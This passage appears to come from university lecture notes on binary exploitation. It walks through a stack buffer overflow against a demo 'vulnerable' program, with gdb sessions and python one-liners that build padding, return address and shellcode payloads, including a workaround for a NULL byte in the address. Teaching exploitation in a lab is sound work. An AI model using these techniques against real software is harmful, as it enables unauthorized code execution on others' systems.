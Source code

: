 ``` example
                                             .-----------.
                                             |           |
                                             |           v
   ./vulnerable 5 <--------padding-----><address-of-buf><shell code>
```

Again, we need to use gdb to do some address calculations to find out
where the start of our shell code is. I'll format the exploit of the
right length and use 0xdeadbeef as the return address filler to
calculate the start of the shell code which should be at `ebp+0x8`, four
bytes further than the return address.

``` example
(gdb) p $ebp-0x2cQuit
(gdb) r 5 `python -c "sh=open('shell').read(); print 'A'*(0x30)+'\xfc\xf5\xff\xbf'+sh"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/git/si485-binary-exploits/lec/10/demo/vulnerable 5 `python -c "sh=open('shell').read(); print 'A'*(0x30)+'\xfc\xf5\xff\xbf'+sh"`

Breakpoint 1, 0x080484db in vuln ()
(gdb) x/x $ebp+8
0xbffff600: 0x05
```

Again, so the next address following the return address is 0xbfffff600.
Um ... that is not going to work because that address has a NULL byte in
it!

## SUCCESS!

Ok, so we need to jump 8 bytes further from the return address to skip
of that null byte address. This time our shell code exploit looks like
this:

``` example
                                             .------------------------.
                                             |                        |
                                             |                        v
   ./vulnerable 5 <--------padding-----><address-of-shelcode><padding><shell code>
```

Again, I'll do an address calculation to see where we are. We know what
that addres

``` example
(gdb) r 5 `python -c "sh=open('shell').read(); print 'A'*(0x30)+'\xef\xbe\xad\xde'+'A'*4+sh+'\x00'"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/git/si485-binary-exploits/lec/10/demo/vulnerable 5 `python -c "sh=open('shell').read(); print 'A'*(0x30)+'\xef\xbe\xad\xde'+'A'*4+sh+'\x00'"`

Breakpoint 1, 0x080484db in vuln ()
(gdb) ni 6
0x080484f4 in vuln ()
(gdb) x/x $ebp+0xc
0xbffff604: 0x315e17eb
(gdb) x/3wx $ebp
0xbffff5f8: 0x41414141  0xdeadbeef  0x41414141
```
